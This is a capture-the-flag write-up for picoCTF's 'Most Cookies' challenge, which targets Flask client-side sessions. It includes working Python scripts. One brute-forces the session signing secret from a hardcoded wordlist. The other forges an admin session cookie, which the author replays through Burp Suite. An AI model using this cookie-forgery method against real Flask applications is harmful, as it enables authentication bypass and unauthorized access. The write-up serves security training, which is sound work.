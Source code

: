 ```yaml
---
description: 'Flask client-side sessions, cookie forgery'
---
```


# Most Cookies \(150\)

## Problem

Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/99a50920a248ec37c39b8e3ab0af8789/server.py)

{% embed url="http://mercury.picoctf.net:18835" %}

## Solution

From the source code, things to note:

1\) The /display page checks the session cookie. We need to change the `very_auth` session variable to `admin` somehow.

![](../../.gitbook/assets/93b4e2f47ebf4169b2951b4ea172732e.png)

2\) The Flask session secret key is hardcoded into the source code!

```python
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```

We can decode the Flask session cookie like this:

1\) Take the part before the period \(`.`\)

![](../../.gitbook/assets/ef9046c48d2a4f77bbbda919dcc567e4.png)

2\) Append the `==` padding

3\) Base64 decode:

```python
>>> base64.urlsafe_b64decode('eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0==')
b'{"very_auth":"snickerdoodle"}'
```

So we can change the session variable to `admin` and encode it again, but first, we need to crack the secret key. This is because the remainder of the session cookie is the **signature** which will be checked at the server-side to prevent tampering.

The following script will bruteforce each secret in the wordlist:

```python
import hashlib
from itsdangerous import URLSafeTimedSerializer
from flask.sessions import TaggedJSONSerializer

wordlist = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

cookie_str="eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.YF7u-Q.G5B5RUmEVaXNyLzjitMwzPxALp4"
def decode_flask_cookie(secret_key, cookie_str):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, serializer=serializer, salt=salt, signer_kwargs = signer_kwargs)
    return s.loads(cookie_str)


for secret_key in wordlist:
    try:
        cookie = decode_flask_cookie(secret_key, cookie_str)
    except:
        continue

    print(secret_key)
    print(cookie)
```

Here, the secret key is `'butter'`.

![](../../.gitbook/assets/3fc8cd43608949f6b5186a7a9ed353a7.png)

With the secret key, we can craft our own session cookie:

```python
import hashlib
from itsdangerous import URLSafeTimedSerializer, TimestampSigner
from flask.sessions import TaggedJSONSerializer

session = {'very_auth': 'admin'}
secret = 'butter'

print(URLSafeTimedSerializer(
    secret_key = secret,
    salt = 'cookie-session',
    serializer = TaggedJSONSerializer(),
    signer = TimestampSigner,
    signer_kwargs={
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
).dumps(session))
```

![](../../.gitbook/assets/2e06021675f04f98896b554384cd1678.png)

Putting this new crafted cookie back into Burpsuite, we get the flag in the response.

![](../../.gitbook/assets/c61a8cc65a8942c6990ee65ccf80cc71.png)

